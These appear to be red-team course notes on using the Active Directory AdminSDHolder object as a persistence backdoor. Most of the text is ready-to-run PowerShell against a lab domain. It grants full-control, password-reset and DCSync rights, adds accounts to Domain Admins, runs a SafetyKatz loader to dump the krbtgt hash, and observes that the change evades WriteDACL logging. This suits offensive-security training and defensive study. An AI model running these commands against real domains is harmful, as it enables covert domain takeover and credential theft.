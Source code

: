 **Essentially an ACL baseline that overwrites any changes made to protected groups. This can only be edited with DA (or equivalent) membership**

###### **Adding permissions to `AdminSDHolder` - OPSEC**

Add `FullControl` permissions for a user to the `AdminSDHolder` using PowerView as DA
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using `ActiveDirectory` Module and [RACE](https://github.com/samratashok/RACE) toolkit:
```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

`ResetPassword` and `WriteMembers` permissions to `AdminSDHolder` and PowerView.
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

--- 
##### **After adding permissions to `AdminSDHolder`, `SDProp` must be ran/updated for the changes to take effect**

Manually run `SDProp`
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -
Verbose
```

For pre-Server 2008 machines
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -
timeoutMinutes 1 -showProgress -Verbose
```

--- 
##### **Confirm permissions as a standard user**

PoweView
```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
```

ActiveDirectory Module
```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'
```
---
##### Abusing Permissions

Abusing `FullControl` with PowerView and AD module
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

Add-ADGroupMember -Identity 'Domain Admins' -Members
testda
```


Abusing `ResetPassword` with PowerView and AD module
```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText - Force) -Verbose
```

---
##### Gaining `DCSync` rights to the domain object

PowerView
```powershell
Add-DomainObjectAcl -TargetIdentity
'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

AD Module
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```

Executing DCSync
```powershell
Loader.exe -path SafetyKatz.exe -args '"lsadump::evasive-dcsync /user:dcorp\krbtgt"'
```


Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups)

Security Descriptor Propagator (`SDPROP`) runs every hour and compares the ACL of protected groups and members with the ACL of `AdminSDHolder` and any differences are overwritten on the object ACL

Protected Groups:

| Account Operators | Enterprise Admins            |
| ----------------- | ---------------------------- |
| Backup Operators  | Domain Controllers           |
| Server Operators  | Read-only Domain Controllers |
| Print Operators   | Schema Admins                |
| Domain Admins     | Administrators               |
| Replicator        |                              |

Well known abuse of some of the Protected Groups - All of the below
can log on locally to DC:

| Group             | Abuse                                                                                |
| ----------------- | ------------------------------------------------------------------------------------ |
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.          |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators  | Run a command as system (using the disabled Browser service)                         |
| Print Operators   | Copy ntds.dit backup, load device drivers                                            |

With DA privileges (Full Control/Write permissions) on the
`AdminSDHolder` object, it can be used as a backdoor/persistence
mechanism by adding a user with Full Permissions (or other interesting
permissions) to the `AdminSDHolder` object

In 60 minutes (when `SDPROP` runs), the user will be added with Full
Control to the AC of groups like Domain Admins without actually being a
member of it


> [!NOTE] **NOTE**
> Adding a new object to the `AdminSDHolder` won't generate any new logs for `WreiteDACL`. The only way to get insights of abuse is by turning logging on group within the Advanced Security Settings

